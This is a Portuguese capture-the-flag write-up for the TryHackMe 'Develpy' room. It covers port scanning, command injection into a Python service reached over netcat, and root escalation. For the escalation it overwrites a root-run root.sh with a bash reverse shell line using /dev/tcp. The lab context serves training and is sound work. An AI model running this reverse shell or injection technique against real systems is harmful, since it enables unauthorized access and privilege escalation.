








# _**Develpy CTF**_


## _**Enumeração**_
Primeiro, vamos começar com um scan <mark>Nmap</mark>
> ```bash
> nmap [ip_address]
> nmap -p- -sS -T5 [ip_address]
> nmap -p [ports_discovered] -A [ip_address]
> ```


Após, temos dois serviços:
* **SSH** na porta 22
* **snet-sensor-mgmt** na porta 10.000

Vamos pesquisar mais sobre esse serviço  
O nome do serviço é historicamente utilizado no arquivo _/etc/services_ de alguns sistemas Unix/Linux para a porta TCP 10000  
É uma etiqueta genérica e não identifica de forma definitiva o aplicativo específico que está rodando nessa porta  
Tentando acessar, somos levados a uma página web  



Temos um texto  
Dele, o que chama a atenção: _NameError: name 'GET' is not defined_  
Tentando alterar a URL para **[ip_address]:10000/1**, temos um retorno de _erro de sintaxe_  
Vamos utilizar o <mark>Burpsuite</mark> para capturar 2 requisições e analisar elas  
Nada foi encontrado  

Outra ideia é se conectar via ```netcat``` na porta e no IP referente ao exploit  
Conseguimos um _prompt_ que nos pede um número  
Inserindo, temos o envio de uma sequência de bytes para a rede interna do _tryhackme_  
Vamos tentar com números negativos e números bem grandes e ver o que nos aguarda  
Para números negativos, sem retorno  
Para números muito grandes, temos _overflow_ e uma mensagem  



Ainda podemos tentar com letras e caracteres especiais  
Obtivemos progresso  
Primeiro, com o caractere ```;``` e um comando, nada foi obtido  
Segundo, tentando com um número e o caractere ```-```, obtivemos retorno!  



Vamos tentar alguns outros comandos como ```ls``` e ```cat```  



Após algumas tentativas de obter uma shell reversa, e fracassar, porque não injetar diretamente comandos no código  



Agora conseguimos obter mais informações sobre os outros arquivos que aqui se encontram  
Vamos tentar utilizar o arquivo _root.sh_ para escalar privilégios, já que após verificar, vemos que ele está sendo executado  
Alterando o caminho e o arquivo com ```mv root.sh root.sh.py```  
Executando o comando ```echo 'bash -i >& /dev/tcp/[ip_address]/[port] 0>&1' > root.sh``` e ligando nosso ```netcat``` na porta que queremos obter conexão  
Agora, basta ir atrás da flag _root_  


